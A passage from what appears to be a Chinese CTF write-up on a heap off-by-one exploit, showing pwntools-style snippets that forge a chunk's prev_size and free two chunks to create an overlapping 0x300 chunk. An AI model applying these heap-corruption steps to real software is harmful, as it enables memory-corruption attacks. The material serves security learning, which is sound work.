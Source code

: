 而实际上前面的chunk 已经在fastbin中了。再次分配的时候，会分配出0x280这个堆块。由于它的大小为0x20，所以我们分配时申请的D堆块的大小也是0x20。

```python
PUT("D"*0x8+p64(0)+p64(0x200), 0x20, p8(0)*0x20)
```

分配之后如下

![20](/chunk_offbyone/20.png)

p64(0x200)伪造了0x582a0的chunk的pre_size为0x200，因为从0x582a0向前0x200个字节恰好是0x580a0,即堆块A对应的data的地址。

```python
double free
DEL("A"*0x8)
DEL("C"*0x8)
```

这就将0x580a0至0x583a0的内存都free掉了。

![21](/chunk_offbyone/21.png)

此时0x580a0块的大小为0x300

![22](/chunk_offbyone/22.png)
